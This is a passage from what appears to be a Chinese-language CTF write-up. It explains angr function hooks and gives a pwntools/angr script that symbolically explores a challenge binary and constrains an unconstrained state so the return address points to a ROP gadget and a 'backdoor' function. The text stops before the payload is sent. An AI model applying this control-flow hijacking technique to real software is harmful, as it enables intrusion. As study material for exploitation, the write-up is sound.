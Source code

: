 angr 中的函数钩子模板如上，`claripy.BVV(0, 32)` 是用来生成向量符号的，相当于一个变量，第一个为变量名，第二个参数为变量的长度。

`self.state.regs.rax` 则是用来设置寄存器数据的，因为函数的返回值由 `rax` 寄存器保存，因此将结果写入 `self.state.regs.rax` 。

其他部分懒得写了，angr 姑且有 python 的语法结构，至少从语义上不难理解，细节可能要等以后学过 angr 才能看了。

```python
from pwn import *
import angr
import claripy
import base64
ret_rop = 0x4013C8

r=process("./pwn")

p = angr.Project("./pwn")

def getBVV(state, sizeInBytes, type = 'str'):
    global pathConditions
    name = 's_' + str(state.globals['symbols_count'])
    bvs = claripy.BVS(name, sizeInBytes * 8)
    state.globals['symbols_count'] += 1
    state.globals[name] = (bvs, type)
    return bvs

def angr_load_str(state, addr):
    s, i = '', 0
    while True:
        ch = state.solver.eval(state.memory.load(addr + i, 1))
        if ch == 0: break
        s += chr(ch)
        i += 1
    return s

class ReplacementCheckEquals(angr.SimProcedure):
    def run(self, str1, str2):
        cmp1 = angr_load_str(self.state, str2).encode("ascii")
        cmp0 = self.state.memory.load(str1, len(cmp1))
        self.state.regs.rax = claripy.If(cmp1 == cmp0, claripy.BVV(0, 32), claripy.BVV(1, 32))

class ReplacementCheckInput(angr.SimProcedure):
    def run(self, buf, len):
        len = self.state.solver.eval(len)
        self.state.memory.store(buf, getBVV(self.state, len))

class ReplacementInputVal(angr.SimProcedure):
    def run(self):
        self.state.regs.rax = getBVV(self.state, 4, 'int') 


p.hook_symbol("fksth", ReplacementCheckEquals())
p.hook_symbol("input_line", ReplacementCheckInput())
p.hook_symbol("input_val", ReplacementInputVal())

enter = p.factory.entry_state()
enter.globals['symbols_count'] = 0
simgr = p.factory.simgr(enter, save_unconstrained=True)
d = simgr.explore()
backdoor = p.loader.find_symbol('backdoor').rebased_addr
for state in d.unconstrained:
    bindata = b''
    rsp = state.regs.rsp
    next_stack = state.memory.load(rsp, 8, endness=p.arch.memory_endness)
    state.add_constraints(state.regs.rip == ret_rop)
    state.add_constraints(next_stack == backdoor)
```